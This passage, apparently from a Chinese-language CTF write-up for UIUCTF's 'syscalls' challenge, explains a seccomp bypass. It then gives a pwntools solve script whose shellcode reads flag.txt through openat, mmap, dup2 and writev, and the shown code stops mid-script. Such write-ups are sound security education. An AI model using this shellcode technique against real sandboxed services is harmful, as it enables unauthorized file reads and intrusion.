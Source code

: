 沒法直接用 execve，也沒法用 open + read + write，但是沒有擋掉像是 `openat`，此外在 `writev` 的部分似乎也可以正常運行，比較麻煩的是如何讀檔案

這邊我想到的方法是使用 mmap 的 backed file 功能，他會將檔案直接 map 進 process meory，如此一來就能代替 read 的功能

而在 `writev` 的部分可以看到有限制讀取的 fd 需要大於 1000，而這邊可以使用 `dup2` 複製 stdout 到一個我們想要的 fd (如 1001) 上

以下是完整的 exploit

:::spoiler `solve.py`
```python
from pwn import *
binary = "./syscalls"

context.terminal = ["cmd.exe", "/c", "start", "bash.exe", "-c"]
context.log_level = "debug"
context.binary = binary

conn = remote("syscalls.chal.uiuc.tf", 1337, ssl=True)
# conn = process(binary)
# conn = gdb.debug(binary)

flagfile = b"flag.txt"
SYSCALL_OPENAT = 0x101
SYSCALL_MMAP = 0x9
SYSCALL_WRITEV = 0x14
SYSCALL_DUP2 = 0x21
AT_FDCWD = -100
# openat(-100, flagfile, 0, 0) + 
# mmap(0, 0x100, 0x7, 0x2, rax, 0) +
# create struct iovec on stack
    # struct iovec {
    #    void      *iov_base;      /* starting address of buffer */
    #    size_t    iov_len;        /* size of buffer */
    # };
# dup2(1, 1000) +
# writev(1000, rsp, 1)
shellcode = asm(f"""
push 0x0
mov rbx, 0x{flagfile[::-1].hex()}
push rbx
mov rax, {hex(SYSCALL_OPENAT)}
mov rdi, {AT_FDCWD}
mov rsi, rsp
xor rdx, rdx
xor r10, r10
syscall

mov r8, rax
mov rax, {hex(SYSCALL_MMAP)}
xor rdi, rdi
mov rsi, 0x100
mov rdx, 0x7
mov r10, 0x2
xor r9, r9
syscall

push 0x100
push rax

mov rax, {hex(SYSCALL_DUP2)}
mov rdi, 0x1
mov rsi, 1001
syscall

mov rax, {hex(SYSCALL_WRITEV)}
mov rdi, 1001
```